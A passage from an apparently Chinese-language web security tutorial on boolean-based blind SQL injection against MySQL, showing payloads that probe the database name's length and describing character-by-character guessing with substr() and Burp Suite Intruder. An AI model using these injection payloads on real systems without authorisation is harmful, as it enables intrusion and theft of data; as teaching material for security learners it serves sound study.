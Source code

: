 ```bash
//先猜测数据库名是否比 5 长，发现为真
1' and length(database())>5--+

//再判断数据库是否比 10 长，发现为假
1' and length(database())>10--+

//此时数据库大于 5 小于等于 10，依次尝试可以发现长度为 8
1' and length(database())=8--+
```

拿到长度后，我们使用`substr()`函数或`mid()`函数一位一位的猜测数据库字符，Mysql 库名一共可以使用 63 个字符，分别是：`a-z`、`A-Z`、`0-9`、`_`  
[![](assets/1707953831-fdd0bed60ef42dbb334405b7bce75c8b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204191745-057963ca-c34f-1.png)  
这里我们先来判断第一位是什么字符，这里我们使用 Burp Suite Intruder 模块快速进行，将字符标记为 Payload 设置字典为 `a-z`、`A-Z`、`0-9`、`_`，发现 s 和 S 回显长度与其他字符不同，说明这里第一位是 s，这里大小写都有是**因为 Mysql 在 Windows 下对大小写不敏感**

> MySQL 在 Windows 下不区分大小写，但在 Linux 下默认是区分大小写，由`lower_case_file_system`和`lower_case_table_names`两个参数控制

[![](assets/1707953831-05a6cfaa8ec0a2c01b0a6424a680be7e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204191816-17e82730-c34f-1.png)
